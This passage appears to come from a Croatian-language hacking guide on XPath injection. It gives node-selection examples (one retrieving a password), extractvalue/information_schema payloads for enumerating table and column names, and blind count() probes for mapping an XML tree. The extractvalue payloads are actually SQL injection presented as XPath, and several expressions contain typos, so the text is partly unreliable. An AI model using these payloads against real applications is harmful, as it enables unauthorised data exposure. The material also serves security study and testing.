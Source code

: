 ```


Positions
//user[position()=1]/name #pepe
//user[last()-1]/name #mark
//user[position()=1]/child::node()[position()=2] #peponcio (password)

Functions
count(//user/node()) #3*3 = 9 (count all values)
string-length(//user[position()=1]/child::node()[position()=1]) #Length of "pepe" = 4
substrig(//user[position()=2/child::node()[position()=1],2,1) #Substring of mark: pos=2,length=1 --> "a"
```

### Identifikacija i krađa šeme

XPath Injection napad može se koristiti za identifikaciju i krađu šeme web aplikacije. Kroz ovaj napad, haker može dobiti pristup osjetljivim informacijama o strukturi baze podataka, kao što su tablice, stupci i njihovi nazivi.

Da biste izvršili ovaj napad, prvo morate pronaći ranjivu točku unosa koja koristi XPath upite za dohvaćanje podataka iz baze podataka. Zatim možete iskoristiti ovu ranjivost ubacivanjem zlonamjernog XPath izraza kako biste otkrili šemu baze podataka.

Jedan od načina za identifikaciju šeme je korištenje funkcije `extractvalue()`. Ova funkcija omogućuje izvršavanje XPath upita i dohvaćanje vrijednosti iz rezultata. Možete koristiti ovu funkciju za dohvaćanje naziva tablica i stupaca iz baze podataka.

Primjer zlonamjernog XPath izraza za izvršavanje ovog napada je sljedeći:

```plaintext
' or extractvalue(0x0a,concat(0x0a,(select table_name from information_schema.tables limit 1 offset 0))) or '
```

Ovaj izraz će pokušati dohvatiti naziv prve tablice iz `information_schema.tables` tablice. Ako je napad uspješan, dobit ćete odgovor koji sadrži naziv tablice.

Kada dobijete nazive tablica, možete nastaviti s dohvaćanjem naziva stupaca iz odabrane tablice. Primjer zlonamjernog XPath izraza za dohvaćanje naziva stupaca je sljedeći:

```plaintext
' or extractvalue(0x0a,concat(0x0a,(select column_name from information_schema.columns where table_name='ime_tablice' limit 1 offset 0))) or '
```

Zamijenite `ime_tablice` s nazivom tablice iz koje želite dohvatiti nazive stupaca. Ako je napad uspješan, dobit ćete odgovor koji sadrži naziv stupca.

Kroz ovaj postupak, možete postupno identificirati i dohvatiti sve potrebne informacije o šemi baze podataka web aplikacije.

```python
and count(/*) = 1 #root
and count(/*[1]/*) = 2 #count(root) = 2 (a,c)
and count(/*[1]/*[1]/*) = 1 #count(a) = 1 (b)
and count(/*[1]/*[1]/*[1]/*) = 0 #count(b) = 0
and count(/*[1]/*[2]/*) = 3 #count(c) = 3 (d,e,f)
and count(/*[1]/*[2]/*[1]/*) = 0 #count(d) = 0
and count(/*[1]/*[2]/*[2]/*) = 0 #count(e) = 0
and count(/*[1]/*[2]/*[3]/*) = 1 #count(f) = 1 (g)
and count(/*[1]/*[2]/*[3]/[1]*) = 0 #count(g) = 0

#The previous solutions are the representation of a schema like the following
#(at this stage we don't know the name of the tags, but jus the schema)
<root>
<a>
<b></b>
</a>
```